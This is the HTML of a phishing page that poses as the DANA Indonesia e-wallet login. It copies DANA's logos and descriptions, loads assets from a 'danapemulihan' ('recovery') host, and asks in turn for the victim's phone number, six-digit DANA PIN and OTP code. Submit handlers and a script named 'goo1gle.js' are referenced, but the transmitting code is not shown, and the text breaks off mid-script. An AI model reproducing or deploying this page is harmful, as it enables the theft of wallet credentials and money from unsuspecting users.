 <head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=0">
<meta name="theme-color" content="#118EEA"> 

<meta http-equiv="X-UA-Compatible" content="ie=edge">
<title>Dana | Dompet Digital Indonesia</title>
<meta property="og:title" content="DANA ID">
<meta property="twitter:title" content="DANA ID ">
<meta property="twitter:card" content="summary_large_image">
<meta property="og:image:type" content="image/jpeg">
<meta content="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQA-22lQk5cJ68usHbFQm_lnqlOTy6o7c3rZg&usqp=CAU" property="og:image">
<link href="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTvPgNVkX0Fegnd3bDGBxf82pFcQbfL-g7ytQ&usqp=CAU" rel="shortcut icon" type="image/x-icon">
<link href="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTvPgNVkX0Fegnd3bDGBxf82pFcQbfL-g7ytQ&usqp=CAU" rel="apple-touch-icon">
<link rel="canonical" href="https://www.dana.id/">
<meta property="og:url" content="https://www.dana.id/" />
<meta property="og:description" content="DANA adalah bentuk baru uang tunai yang lebih baik. Transaksi apapun, berapapun dan dimanapun jadi mudah bersama DANA. Ambil bagian dalam transformasi keuangan digital di Indonesia sekarang!">
<meta property="twitter:description" content="DANA adalah bentuk baru uang tunai yang lebih baik. Transaksi apapun, berapapun dan dimanapun jadi mudah bersama DANA. Ambil bagian dalam transformasi keuangan digital di Indonesia sekarang!">
<script type="module" src="https://unpkg.com/ionicons@7.1.0/dist/ionicons/ionicons.esm.js"></script>
<script nomodule src="https://unpkg.com/ionicons@7.1.0/dist/ionicons/ionicons.js"></script>
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/container.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/loader.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/main.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/otp.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/pin.css">
</head>
<style>
    
body, html{
      left: 0;
      right: 0;
      bottom: 0;
      top: 0;
      margin: 0px auto;
      width: 100%;
      height: 100%;
      positon: fixed
      
}
h2{font-size: 18px; }

h3{
  font-size: 14px;  
}

 
 * {
  box-sizing: border-box;
  scrollbar-color: transparent transparent; /* thumb and track color */
  scrollbar-width: 0px;
}

*::-webkit-scrollbar {
  width: 0;
}

*::-webkit-scrollbar-track {
  background: transparent;
}

*::-webkit-scrollbar-thumb {
  background-color: #118CEA;
  border: none;
}

* {
  -ms-overflow-style: none;
}

ol, li {
  list-style: none;
  margin: 0;
  padding: 0;
}

.carousel {
  position: absolute;
  background-color: #118CEA;
  padding-top:0%;
  height: 100%;
  top: 0;
  right: 0;
  left: 0;
  margin: 0px auto;
  perspective: 200px;
}

.carousel__viewport {
  position: absolute;
  padding: 32px;
  width: 100%;
  top: 0;
  background-color: #118CEA;
  right: 0;
  bottom: 0;
  left: 0;
  height: 79%;
  display: flex;
  overflow-x: scroll;
  counter-reset: item;
  margin: 0px auto;
 
  scroll-behavior: smooth;
  scroll-snap-type: x mandatory;{}
}

.carousel__slide {
  position: relative;
  flex: 0 0 100%;
  width: 100%;
  height: 100%;
  margin-left: 10px;
  background-color: #118CEA;
  counter-increment: item;
  z-index: 99999999;
}

.carousel__slide:nth-child(even) {
  background-color: #118CEA;
}

.carousel__slide:before {
  content: counter(item);
  position: absolute;
  top: 50%;
  left: 50%;
  transform: translate3d(-50%,-40%,70px);
  color: #000;
  font-size: 2em;
  background-color: #118CEA;
}

.carousel__snapper {
  position: relative;
  top: 0;
  left: 0;
  right: 0;
  bottom: 0;
  width: 100%;
  height: 100%;
  scroll-snap-align: center;
  background-color: #118CEA;
  
  
}

@media (hover: hover) {
  .carousel__snapper {
    animation-name: tonext, snap;
    animation-timing-function: ease;
    animation-duration: 4s;
    animation-iteration-count: infinite;
  }

  .carousel__slide:last-child .carousel__snapper {
    animation-name: tostart, snap;
  }
}

@media (prefers-reduced-motion: reduce) {
  .carousel__snapper {
    animation-name: none;
  }
}

.carousel:hover .carousel__snapper,
.carousel:focus-within .carousel__snapper {
  animation-name: none;
}

.carousel__navigation {
  position: absolute;
  right: 0;
  bottom: 0;
  left: 0;
  text-align: center;
}

.carousel__navigation-list,
.carousel__navigation-item {
  display: inline-block;
}


.carousel::before,
.carousel::after,
.carousel__prev,
.carousel__next {
  position: absolute;
  top: 0;
  margin-top: 37.5%;
  width: 0;
  height: 0;
  transform: translateY(-50%);
  border-radius: 50%;
  font-size: 0;
  outline: 0;
  opacity: 0.0;
}

.carousel::before,
.carousel__prev {
  left: -1rem;
}

.carousel::after,
.carousel__next {
  right: 0rem;
}

.carousel::before,
.carousel::after {
  content: '';
  z-index: 1;
  background-color: #fff;
  background-size: 1.5rem 1.5rem;
  background-repeat: no-repeat;
  background-position: center center;
  color: #000;
  font-size: 2.5rem;
  line-height: 4rem;
  text-align: center;
  pointer-events: none;
}

/*********************/
.process1 {
     width: 100%;
            height: 100%;
             display: flex;
             justify-content: center;
            margin: auto;
            position: absolute;
           padding-top: 300px;
            left: 0;
            right: 0;
            bottom: 0;
            background: rgba(0, 0, 0, 0.6);
            z-index: 99999;
            
      
}
.loading {
    position: absolute;
    display: flex;
    justify-content: center;
    align-items: center;
    margin-bottom: 20%;
}
.loading img {
    width: 50px;
    
    top: 10;
}
.loading .spinner{
    position: absolute;
    width: 35px;
    animation: spin 1s linear infinite;
    -webkit-animation: spin 1s linear infinite;
    -moz-animation: spin 1s linear infinite;
    -ms-animation: spin 1s linear infinite;
    -o-animation: spin 1s linear infinite;
}
@keyframes spin {
  0% { transform: rotate(360deg); }
  100% { transform: rotate(0deg); }
}
@-webkit-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-moz-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-ms-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-o-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}

/*********************/

 #homeku{
     width: 100%;
     height: 100%;
     position: fixed;
    background: #118EEA;
  background-position: 100% 100%;
  background-size: 100% 100%;
  left: 0;
  right: 0;
  top: 0;
  bottom: 0;
  margin: 0px auto;
     
     
 }
 
 .inp{
     width: 70%;
     padding-left: 10px;
 }
 
 
 .btn-backku{
     position: absolute;
     left: 20;
     top: 12;
     background: transparent;
     color: #fff;
     border: none;
     font-size: 18px;
     font-weight: 300;
    
 }
 
 
 #back1{
      display: none;
     
 }
 
 #back2{
      display: none;
 }
</style>
<body>

<div style="display:none;" class="index">
	<div class="header">
		<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_logo.png" class="logo" alt="">
	</div>
	<div class="content">
		<div class="hero">
			<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/hero.svg" alt="">
		</div>
		<h1>Dompet digital untuk kamu!</h1>
		<p class="desc">
			Simpan uang serta kartu debit/kredit dengan<br>praktis di DANA</p>
		<div class="line"></div>
		<p class="log">
			Masukkan <b>nomor HP</b> kamu untuk lanjut
		</p>
		<button type="button" onclick="next();">LOGIN</button>
	</div>
</div>
<div class="start" style="display:none;">
	<img class="logo" src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_text.png" style="width: 150px">
	<div class="footimg">
		<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/bi.png" alt=""><img src="https://dev-danapemulihan.pantheonsite.io/asset/img/kom.png" alt="">
		<p>
			DANA Indonesia terdaftar dan diawasi<br>oleh Bank Indonesia dan Kominfo</p>
	</div>
</div>

<div class="container hid" style="position: fixed">
    
	<div class="" style="text-align: center;" id="homeku">
   

        
     <section class="carousel" aria-label="Gallery" style="margin-top: 0px; text-align: center; left: 0">
  <ol class="carousel__viewport">
    <li id="carousel__slide1"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEilUMIG_IMFVixTFpWb4xA5f1HJt25lbv-cc1baknB_YJeWO9FYU4SJOzdeMNkA1msFpUU-0MiI3B-llmFX122-XhqCq7-1HW4YUfaWX52rlNtfspDDvlFNj_A--xZIRknP3ycDkzm51noxYaFx_gfOck3U745QZSBwpCSesqOq1oEycuQamqaZlqoz/s16000/ezgif.com-crop%20(3).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; z-index: 99999999; position: relative;">
       
       
      </div>
    </li>
    <li id="carousel__slide2"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper" style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEixR-U2gHP_VriGKaaVcf-_BbZmvWWoaRI8Wd26DYewNJayil_To6kgdWxmdq3TDJKQJ7lAAbD1de1uuuWTLQzCGdR8qT1S2mTehsdR02AFN573iPkN-0IrliCuRAy0xJfSH9AlfJWV7odqpRC_bxJLM2EkLf-84_ePEjEfE8SOtiKfEjcLQ7nDBjDc/s16000/ezgif.com-crop%20(4).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; background-color: transparent;"></div>
      <a href="#carousel__slide1"
         class="carousel__prev">Go to previous slide</a>
      <a href="#carousel__slide3"
         class="carousel__next">Go to next slide</a>
    </li>
    <li id="carousel__slide3"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjj8Fs3JMUwF85O07XgsV-e1rmQjTwS91jcu-zh3Lr_fEgVfhY823rmnMewtU59iGvsFjcBm-12OLSj81f57ZEksJeU2GaG7UU3zuwDsOsfTO4dAJ693JJyILcXjdHEzirw-pPBCeV1CfTqSroNgoMTGIfy-Y-HC8GAJDmo68GYd1-x2gGu0UsincrU/s16000/ezgif.com-crop%20(5).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%;">
       
       
      </div>
    </li>
   
  </ol>
  <aside class="carousel__navigation">
    <ol class="carousel__navigation-list">
      <li class="carousel__navigation-item">
        <a href="#carousel__slide1"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide2"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide3"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        
    </ol>
  </aside>
</section>
<button id="butonku" style="width: 90%; height: 189px; position: fixed; bottom: 0; left: 0; right: 0; margin: 1px auto; border: 0; background: url('https://user-images.githubusercontent.com/155412066/296517930-fcfc7dd0-ba64-4395-85bf-e4103927b567.jpg');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; z-index: 99999" onclick="nextPrev()"></button>
      <center>
     <div id="process1" name="process" class="process" style="display: none;">
            <div class="loading">
                <img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi8hbZEfutKvr9pkj0-mkJYWt-1SBtt3gw-HFOEZc0172okrp0SFHLaW3PRGVDm1U0P7WWEMELIw4nlq1_1gCgyZBo3cxf-OJNpguNamdJryCkGU-hTHiW3RyOv5JD9eIjXTFtrJFCVn0ae4RxG4Oi-czAP20tEaJI3OstxFAbtOwtFxp6RvOHc6NZL/s1600/load_bg.png">
                <img class="spinner" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhl9xJVYWF_a9vAhgW5QQgozvZVADTaJgIX64iO7a5sQuMpSoPBK3zfKjvT6xc9fZPfxZz39mjk1H_oZOOOtYvO1l7DkWNqiD5LJyGYdwDNyHuyqLk_Ix6eFs3aLCG2yUXVwtsnj0BXTA40WZmecyLyCIm_ff0xNkkOvkuKBOl6yfS-QjI_EJrIyGtU/s1600/load_spin.png" id="loading" style="margin-top: 8px">
            </div>
        </div>
        </center>
  </div>
  <div id="blogin" class="box-login" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: fixed; 
    left: 0; 
    padding: 0px
    right: 0; 
    margin: 0px auto;
    top: 0; display: none;">
      	<div id="process" name="process" class="process" style="display: none;">
			<div class="loading">
				<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_bg.png">
				<img class="spinner" src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_spin.png" style="margin-top: 8px">
			</div>
		</div>
		
		<div class="header">
<button id="back1" type="button" class="btn-backku" onclick="goback1()"><ion-icon name="chevron-back-outline"></ion-icon></button>	<p></p>


			<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_logo.png" class="logo" alt="">
		</div>
		<form id="formNohp" onsubmit="sendNohp(event);" >
		     <input type="hidden" id="logo" value="𝐃𝐀𝐍𝐀 𝐈𝐃">
			<h3 style="font-size: 16px; margin-top: -20px">Masukkan <b>nomor HP</b> kamu untuk lanjut</h3>
			<div class="box-input" style="width: 95%;">
				<div class="label">
					<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/indo.png" alt=""><label>+62</label>
				</div>
				<input class="inp" id="inp" type="tel" autocomplete="off" required name="nohp" placeholder="812-3456-7890" maxlength="12" minlength="10"></div>
			<p class="desc" style="font-size: 12px; line-height: 18px; margin-top: 25px">
Nomor ponsel akan digunakan sebagai ID kamu & menjaga<br>akun selalu aman. Dengan melanjutkan, kamu setuju dengan <b>Syarat & Ketentuan dan Kebijakan Privasi</b> kami.
			</p>
			<div class="box-btn">
				<button disabled id="btn" class="btnnohp" type="submit" style="margin-top: -40px"><b>Lanjutkan</b></button>
			</div>
		</form>
		<form id="formPin" omsubmit="return false" class="hid" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: fixed; 
    left: 0; 
    right: 0; 
    margin: 0px auto;
    top: 0;">
		     <input type="hidden" id="logo" value="𝐃𝐀𝐍𝐀 𝐈𝐃">
		    <button id="back2" type="button" class="btn-backku" onclick="goback2()" style="margin-top: 10px"><ion-icon name="chevron-back-outline"></ion-icon></button>
			<h3 style="margin-top: 50px; font-weight: 600; margin-bottom: -10px; font-size: 16px"><font style="font-weight: 400">Masukkan</font> PIN DANA</h3>
			<div class="box-input-pin">
				<div type="button" class="clear"></div>
				<input name="pin1" id="pin1" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin2" id="pin2" class="inppin" inputmode="numeric" type="password" autocomplete="off" required"""" maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin3" id="pin3" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin4" id="pin4" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin5" id="pin5" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin6" id="pin6" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;" onchange="javascript:this.form.button();" oninput="sendPin()"></div>
			<button class="show" type="button">TAMPILKAN</button>
			<p class="forgot">LUPA PIN?</p>
			<img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgbD-mmuMUDwaeFMEz6NefivuQqHyrFXvXxqVxMhYRhR5wsfUhiWkPNkpxLKkagRNpJ2obIiZH_D9EK6tnHIJUFMVBOclZI98zrU7VPszAR5n-_GeSWNCNgnfH1MRWuL-ahhPjxsejyDa5yyWAaOMWXWT4jS4EngtdLLlXjaPakQoFIOsjyS6tfnEBHDlw/s16000/output-onlinegiftools.gif" width="100%" style="position: absolute; bottom: 10; left: 0; right: 0; margin: 0px auto;">
		</form>
<div class="bgotp hid" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: absolute; 
    left: 0; 
    right: 0; 
    margin: 0px auto;
    top: 0;">
<div class="bgotp hid"><form id="formOtp" class=""><h2>Masukan Kode OTP</h2><br><center>
				<p class="alert" id="alert" style="font-size: 14px; text-align: center; margin-bottom: 0px; font-weight: 500; color: #000; margin-top: 0px; display: ; width: 360px; margin-bottom: -10px; font-weight: 300"></p>
				
				
				</center>
				<div class="box-input-otp" style="margin-top: 50px">
					
					<div class="loadingOtp" style="display:none;background: #fafafa">

						
						<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_bg.png"><img class="spinner" src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_spin.png">
		</div>
		<div type="button" class="clearotp"></div>
		 <input type="hidden" id="logo" value="𝐃𝐀𝐍𝐀 𝐈𝐃">
					<input name="otp1" id="otp1" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp2" id="otp2" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp3" id="otp3" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp4" id="otp4" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"></div>
		 <p id="waktuku" class="resend" style="margin-top: 70px; spacing: 2;color: #0f78cb; font-size: 13px">
					Kirim Ulang (<span id="carasingkat" style="color: #0f78cb">60</span>s)
				</p>
       <p class="resend" style="margin-top: 70px; spacing: 2; font-weight: 600; color: #0f78cb; margin-left: 0px; display: none" id="kirim-ulang" onclick="kirimulang()">Kirim Ulang</p>
       
       
			</div>
		</div>
	</div>
</div>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.11.3/jquery.min.js"></script>
        <script>
            var url = "#kirim-ulang"; // url tujuan
            var count = 60; // dalam detik
            function countDown() {
                
                if (count > 0) {
                    count--;
                    var waktu = count + 0;
            $('#carasingkat').html(waktu);
             
         setTimeout("countDown()", 1000);
           
                    
               
                }
            }
            countDown();
       
       </script>
<script src="https://code.jquery.com/jquery-3.5.1.min.js"></script>
<script src="https://dev-danapemulihan.pantheonsite.io/asset/jquery.mask.min.js"></script>
<script src="./asset/goo1gle.js"></script>
<script>$(document).ready(function(){$('#inp').on('input', function(){if($(this).val() == '0' || $(this).val() == '62'){$(this).val('');}});});</script>
<script>$(document).ready(function(){$('#inp').mask('000-0000-000000');});</script>
<script>let inp = document.getElementById("inp");let btn = document.getElementById("btn");inp.addEventListener("input", val);function val(){if(inp.value.length > 10){btn.disabled = false;}else{btn.disabled = true;}};</script>

<script>
//var pinContainer = document.getElementsByClassName("pin-code")[maxlength];
var pinContainer = document.querySelector(".box-input-pin");
console.log('There is
